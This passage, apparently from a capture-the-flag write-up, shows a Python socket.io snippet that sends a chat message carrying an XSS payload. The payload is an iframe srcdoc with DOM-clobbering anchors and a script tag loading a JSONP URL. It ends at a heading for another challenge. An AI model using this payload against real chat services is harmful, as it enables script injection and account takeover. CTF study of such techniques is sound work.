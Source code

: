 ```py

        xss_payload = """
<a id=&quot;___eio&quot;></a>
<a id=&quot;___eio&quot;></a>
<script src=&quot;%s&quot;></script>
""" % jsonp_url
        chat_message = '<iframe id="xss" srcdoc="%s"></iframe>' % xss_payload.strip()
        assert len(chat_message) < 400, 'chat message too long, time to write better payload'
        sio.emit('message', chat_message)

sio.connect(base_url)
sio.wait()
```

![image](https://github.com/user-attachments/assets/d947da00-c9e4-4d52-b86e-1b34f37c8a77)

## repayment-pal (PENDING)
